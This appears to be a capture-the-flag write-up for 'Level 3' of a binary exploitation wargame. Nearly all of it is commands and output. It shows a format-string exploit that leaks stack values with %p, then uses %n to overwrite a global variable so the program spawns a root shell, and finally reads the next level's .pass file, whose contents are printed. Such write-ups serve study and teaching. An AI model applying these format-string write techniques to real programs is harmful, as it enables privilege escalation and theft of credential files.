 # Level 3
*pass: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02*

```
$ scp -P 4242 level3@192.168.56.108:level3 .
```

```
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
```

`0x40` = 64
`m` address : 0x0804988c

## printf exploit

```
$ python -c 'print "\x8c\x98\x04\x08 %p %p %p %p %p %p"' | ./level3 
� 0x200 0xb7fd1ac0 0xb7ff37d0 0x804988c 0x20702520 0x25207025
```
address at parameters 4th.

```
$ python -c 'print "\x8c\x98\x04\x08%60u%4$n"' > /tmp/level3
$ cat /tmp/level3 - | ./level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```